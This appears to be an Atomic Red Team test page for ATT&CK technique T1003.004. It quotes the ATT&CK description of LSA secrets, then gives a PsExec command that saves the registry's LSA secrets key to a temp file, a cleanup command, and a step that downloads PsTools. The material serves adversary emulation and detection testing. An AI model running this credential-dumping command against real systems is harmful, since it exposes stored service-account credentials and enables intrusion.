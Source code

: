 # T1003.004 - OS Credential Dumping: LSA Secrets

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/004)

<blockquote>Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts.(Citation: Passcape LSA Secrets)(Citation: Microsoft AD Admin Tier Model)(Citation: Tilbury Windows Credentials) LSA secrets are stored in the registry at <code>HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets</code>. LSA secrets can also be dumped from memory.(Citation: ired Dumping LSA Secrets)

[Reg](https://attack.mitre.org/software/S0075) can be used to extract from the Registry. [Mimikatz](https://attack.mitre.org/software/S0002) can be used to extract secrets from memory.(Citation: ired Dumping LSA Secrets)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Dumping LSA Secrets](#atomic-test-1---dumping-lsa-secrets)

<br/>

## Atomic Test #1 - Dumping LSA Secrets

Dump secrets key from Windows registry
When successful, the dumped file will be written to $env:Temp\secrets.
Attackers may use the secrets key to assist with extracting passwords and enumerating other sensitive system information.
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/#:~:text=LSA%20Secrets%20is%20a%20registry,host%2C%20local%20security%20policy%20etc.

**Supported Platforms:** Windows

**auto_generated_guid:** 55295ab0-a703-433b-9ca4-ae13807de12f

#### Inputs:

| Name       | Description               | Type | Default Value                                                                        |
| ---------- | ------------------------- | ---- | ------------------------------------------------------------------------------------ |
| psexec_exe | Path to PsExec executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1003.004&#92;bin&#92;PsExec.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"#{psexec_exe}" -accepteula -s reg save HKLM\security\policy\secrets %temp%\secrets /y
```

#### Cleanup Commands:

```cmd
del %temp%\secrets >nul 2> nul
```

#### Dependencies: Run with `powershell`!

##### Description: PsExec from Sysinternals must exist on disk at specified location (#{psexec_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{psexec_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PSTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PSTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PSTools\PsExec.exe" "#{psexec_exe}" -Force
```

<br/>
